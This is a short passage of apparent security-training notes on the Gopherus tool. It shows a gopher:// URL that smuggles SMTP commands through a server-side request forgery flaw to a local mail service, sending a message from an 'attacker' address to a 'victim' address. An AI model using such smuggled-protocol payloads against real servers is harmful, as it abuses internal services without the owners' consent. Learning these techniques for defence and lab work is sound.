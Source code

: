 3. **SMTP Example**:  
   After inputting the necessary details for the email, the tool generates a Gopher URL like:
   ```bash
   gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A
   ```

4. **Advantages of Gopherus**:  
   The tool automates the creation of valid Gopher URLs, making it easier for attackers to exploit SSRF vulnerabilities against various services without manually constructing the URLs.

---

